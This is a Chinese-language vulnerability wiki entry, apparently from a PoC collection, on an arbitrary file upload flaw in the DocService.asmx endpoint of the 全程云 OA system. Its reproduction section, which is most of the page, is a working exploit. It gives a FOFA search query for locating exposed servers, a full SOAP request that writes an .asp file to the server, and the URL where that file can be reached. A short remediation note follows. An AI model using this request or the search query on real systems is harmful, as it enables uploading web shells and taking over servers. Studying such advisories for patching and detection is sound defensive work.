


# 全程云DocumentDocService.asmx接口存在任意文件上传漏洞 

# 漏洞描述

全程云DocumentDocService.asmx接口存在任意文件上传漏洞，攻击者可上次恶意木马文件导致控制服务器，危害极大。

# 影响版本

全程云

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="UserLoginFaster"

POC/EXP：

POST /OA/Document/DocService.asmx HTTP/1.1
Host: 127.0.0.1
Content-Type: text/xml; charset=utf-8
Content-Length: 395
SOAPAction: "http://tempuri.org/SaveFile"

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
  <soap:Body>
    <SaveFile xmlns="http://tempuri.org/">
      <bytes>Y2VzaGk=</bytes>
      <filename>jp.asp</filename>
    </SaveFile>
  </soap:Body>
</soap:Envelope>

http://127.0.0.1/oa/Upfiles/temp/jp.asp

# 修复方案

关闭互联网暴露面或接口设置访问权限

升级至安全版本

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
